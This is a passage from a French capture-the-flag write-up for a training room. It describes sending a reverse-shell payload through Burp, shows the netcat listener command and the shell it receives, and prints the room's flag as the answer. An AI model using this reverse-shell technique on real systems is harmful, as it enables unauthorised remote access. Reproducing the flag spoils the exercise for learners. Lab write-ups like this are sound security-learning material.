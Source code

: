 ![page35](./Task1-35.png)  

Sur burp on modifie, la valeur passée par un reverse-shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On écoute le port 4444 pour avoir un shell.   

On envoie la réquète et on obtien un shell. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.6.183.
Ncat: Connection from 10.10.6.183:36354.
/bin/sh: 0: can't access tty; job control turned off
$ cd /
$ cat flag.txt
{93125e2a845a38c3e1531f72c250e676}
```

On obtient un shell, à la racine on obtient le flag.    
La réponse est : {93125e2a845a38c3e1531f72c250e676}   

## Task 12 SQL Injection ##
